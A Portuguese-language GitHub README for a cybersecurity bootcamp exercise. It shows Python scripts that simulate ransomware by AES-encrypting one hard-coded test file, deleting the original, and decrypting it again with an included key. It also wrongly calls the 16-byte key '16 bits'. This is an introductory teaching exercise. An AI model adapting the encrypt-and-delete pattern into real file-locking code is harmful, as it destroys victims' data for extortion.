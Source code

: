 # Projeto: Criando um Ransonware com Python

## Descrição do Projeto
Este projeto tem como objetivo demonstrar o funcionamento básico de criptografia e descriptografia de arquivos utilizando a biblioteca `pyaes` em Python. 
Simula o funcionamento básico de um Ransonware como por exemplo o Wannacry.
O desafio consiste em criar uma pasta contendo um arquivo de texto simples, que é criptografado pelo código do script chamado Encrypt.py, e posteriormente descriptografado com o código do Decrypt.py para restaurar seu conteúdo original. Este projeto simula, de forma educativa, como funcionam operações similares realizadas por malwares ou por sistemas de proteção de dados.

**Nota importante:** Este projeto é destinado apenas para fins educativos. Nunca utilize este código para propósitos maliciosos ou ilegais.

---

## Ferramentas Utilizadas
1. **Python 3.** Linguagem de programação utilizada para desenvolver os códigos.
2. **pyaes.** Biblioteca Python para operações de criptografia AES (Advanced Encryption Standard).
3. **Sistema Operacional Linux (Kali Linux).** Ambiente usado para executar os scripts e simular as operações de criptografia.
4. ** GitHub.** Ferramenta utilizada para controle de versão e armazenamento do projeto.

---

## Passo a Passo

### **1. Configurar o Ambiente**
1. Certifique-se de que o Python 3 está instalado no seu sistema.
2. Instale a biblioteca `pyaes` utilizando um ambiente virtual ou o gerenciador `pip`:
   ```bash
   pip install pyaes
   ```

### **2. Criar a Estrutura do Projeto**
1. Crie uma pasta para o projeto com o nome que preferir (Neste exemplo foi criado como Desafio Ransonware).
2. Dentro da pasta, crie um arquivo de texto chamado `teste.txt` com o conteúdo de sua escolha (exemplo: "Este é um arquivo para teste de criptografia").

### **3. Criar o Script de Criptografia**
1. Foi criado um arquivo Python chamado `encrypt.py`com o editor nano do Kali Linux.
2. Foi inserido o seguinte código no arquivo:
   ```python
   import os
   import pyaes

   def encrypt_file(file_name, key):
       try:
           # Verifica se o arquivo existe
           if not os.path.exists(file_name):
               print(f"Erro: O arquivo '{file_name}' não foi encontrado.")
               return

           # Lê os dados do arquivo
           with open(file_name, "rb") as file:
               file_data = file.read()

           # Remove o arquivo original
           os.remove(file_name)

           # Criptografa os dados
           aes = pyaes.AESModeOfOperationCTR(key)
           crypto_data = aes.encrypt(file_data)

           # Salva os dados criptografados
           new_file_name = file_name + ".ransomwaretroll"
           with open(new_file_name, "wb") as new_file:
               new_file.write(crypto_data)

           print(f"Arquivo '{file_name}' criptografado com sucesso como '{new_file_name}'.")

       except Exception as e:
           print(f"Erro ao criptografar o arquivo: {e}")

   # Chave de criptografia
   key = b"testeransomwares"

   # Nome do arquivo a ser criptografado
   file_name = "teste.txt"

   # Executa a função
   encrypt_file(file_name, key)
   ```

### **4. Criar o Script de Descriptografia**
1. Foi criado  um arquivo Python, também com o editor nano, chamado `decrypt.py`.
2. O seguinte código foi inserido no arquivo:
   ```python
   import os
   import pyaes

   def decrypt_file(file_name, key):
       try:
           # Verifica se o arquivo existe
           if not os.path.exists(file_name):
               print(f"Erro: O arquivo '{file_name}' não foi encontrado.")
               return

           # Lê os dados do arquivo criptografado
           with open(file_name, "rb") as file:
               file_data = file.read()

           # Descriptografa os dados
           aes = pyaes.AESModeOfOperationCTR(key)
           decrypt_data = aes.decrypt(file_data)

           # Remove o arquivo criptografado
           os.remove(file_name)

           # Cria o arquivo descriptografado
           new_file_name = file_name.replace(".ransomwaretroll", "")
           with open(new_file_name, "wb") as new_file:
               new_file.write(decrypt_data)

           print(f"Arquivo '{file_name}' descriptografado com sucesso como '{new_file_name}'.")

       except Exception as e:
           print(f"Erro ao descriptografar o arquivo: {e}")

   # Chave de descriptografia
   key = b"testeransomwares"

   # Nome do arquivo criptografado
   file_name = "teste.txt.ransomwaretroll"

   # Executa a função
   decrypt_file(file_name, key)
   ```

---

## Descrição Detalhada do Código
Cada linha do código foi projetada para realizar uma tarefa específica:
1. **Importação de bibliotecas**: `os` para manipulação de arquivos e `pyaes` para criptografia AES.
2. **Função de criptografia**:
   - Verifica a existência do arquivo.
   - Lê os dados do arquivo em modo binário.
   - Remove o arquivo original para simular um comportamento de ransomware.
   - Criptografa os dados com uma chave AES de 16 bits.
   - Salva os dados criptografados em um novo arquivo.
3. **Função de descriptografia**:
   - Realiza a operação inversa: descriptografa os dados e recria o arquivo original.

---

## Resultados Esperados
- **Antes da criptografia**: O arquivo `teste.txt` está visível e legível.
- **Após a criptografia**: O arquivo `teste.txt` é removido e substituído por `teste.txt.ransomwaretroll`.
- **Após a descriptografia**: O arquivo original `teste.txt` é restaurado.


![image](https://github.com/user-attachments/assets/8ecf4feb-9ad3-4622-b0af-b76d71b02017)

![image](https://github.com/user-attachments/assets/81241989-2123-4334-8de4-a764387c25e1)

![image](https://github.com/user-attachments/assets/2c150c24-9090-4780-b061-13ff79cf11c3)

![image](https://github.com/user-attachments/assets/a224a4a9-694c-48c4-ad34-da019b64a4e6)

![image](https://github.com/user-attachments/assets/2ceb261a-8a72-486b-96f4-10f79862fd63)

![image](https://github.com/user-attachments/assets/f29460ef-8b59-4ac9-ab56-c4f1d984eb07)

![image](https://github.com/user-attachments/assets/f8f95151-15c6-49b5-b4bd-b825fc84c1e2)

![image](https://github.com/user-attachments/assets/4fa4ee00-5125-490a-90eb-6829f68fe162)









---

## Considerações Finais
Este projeto é um exemplo introdutório e educativo sobre criptografia e manipulação de arquivos com Python. 
Este desafio faz parte do Bootcamp Cyber Security #2 do Santander, Sob Orientação dos experts da DIO.
O projeto destaca princípios fundamentais de segurança da informação, como proteção de dados e uso de chaves criptográficas. Use este conhecimento para construir soluções éticas e seguras!
